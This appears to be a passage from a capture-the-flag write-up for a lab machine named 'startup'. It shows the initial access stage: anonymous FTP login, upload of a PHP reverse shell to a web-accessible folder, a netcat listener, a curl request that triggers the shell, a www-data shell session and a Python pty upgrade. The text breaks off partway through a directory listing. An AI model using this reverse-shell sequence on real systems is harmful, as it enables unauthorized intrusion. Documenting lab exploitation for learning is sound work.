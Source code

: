  # Gaining Access
 
* ## let login FTP first.
```
death@esther:~$ ftp 10.10.231.18  
Connected to 10.10.231.18.
220 (vsFTPd 3.0.3)
Name (10.10.231.18:death): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```
* ## Let upload this.
```
ftp> put shell.php ftp/shell.php
local: shell.php remote: ftp/shell.php
229 Entering Extended Passive Mode (|||39254|)
150 Ok to send data.
100% |*************************************************************************************************************************************************|  3462       30.01 MiB/s    00:00 ETA
226 Transfer complete.put shell.php ftp/shell.php
3462 bytes sent in 00:00 (10.77 KiB/s)
ftp> 

```
* ## Open netcat in another terminal
```
nc -lnvp 1234
```
## Start The shell
```
curl http://10.10.231.18/files/ftp/shell.php
```
## Here we go !!!
```
death@esther:~$ nc -lnvp 1234
Listening on 0.0.0.0 1234
Connection received on 10.10.231.18 52636
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 16:38:56 up  1:21,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
## Swape shell
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
## Here i found a recepie.txt
```
www-data@startup:/$ ls -la
ls -la
total 100
drwxr-xr-x  25 root     root      4096 Sep 28 15:18 .
drwxr-xr-x  25 root     root      4096 Sep 28 15:18 ..
drwxr-xr-x   2 root     root      4096 Sep 25  2020 bin
```